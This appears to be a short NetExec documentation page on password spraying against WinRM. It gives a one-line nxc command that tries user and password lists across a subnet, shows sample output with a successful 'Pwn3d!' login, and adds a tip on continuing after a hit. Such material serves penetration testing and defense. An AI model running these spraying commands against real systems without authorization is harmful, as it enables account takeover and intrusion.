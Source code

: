 # Password spraying

### Password spraying (without bruteforce)

```bash
nxc winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
WINRM       192.168.255.131 5985   ROGER            [*] http://192.168.255.131:5985/wsman
WINRM       192.168.255.131 5985   ROGER            [-] GOLD\test1:pass1 "Failed to authenticate the user test1 with ntlm"
WINRM       192.168.255.131 5985   ROGER            [+] GOLD\bonclay:Password@123 (Pwn3d!)
```

{% hint style="info" %}
By default nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}
